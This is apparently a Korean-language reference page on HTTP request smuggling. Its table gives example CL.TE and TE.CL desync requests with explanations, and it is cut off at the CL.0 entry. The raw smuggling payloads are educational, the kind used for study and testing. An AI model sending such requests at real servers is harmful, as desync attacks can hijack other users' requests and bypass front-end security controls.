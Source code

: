 <div style="text-align: left;">
  <img
    src="/http_request_smuggling.png"
    alt="HTTP Request Smuggling 다이어그램"
    width="1000"
    style="display: block;
           margin: 0 0 1em 0;
           height: auto;"
  />
</div>

## 공격기법

### Desync

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>CL.TE</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked
<br>
0
<br>
SMUGGLED</code></pre></td>
      <td>Front-end 서버  <Br>
        <code>Content-Length</code> 헤더 사용 <br> 
<br>
Back-end 서버 <br>
        <code>Transfer-Encoding</code> 헤더 사용
     </td>
      <td>[C]</td>
    </tr>
    <tr>
      <td>TE.CL</td>
      <td><pre><code>POST / HTTP/1.1<br>
Host: vulnerable-website.com<br>
Content-Length: 3<br>
Transfer-Encoding: chunked<br>
<br>
8<br>
SMUGGLED<br>
0</code></pre></td>
      <td>Front-end 서버 <br>
        <code>Transfer-Encoding</code> 헤더 사용 <br>
<br>
Back-end 서버 <br> 
        <code>Content-Length </code> 헤더 사용</td>
      <td>[C]</td>
    </tr>
    <tr>
      <td>CL.0</td>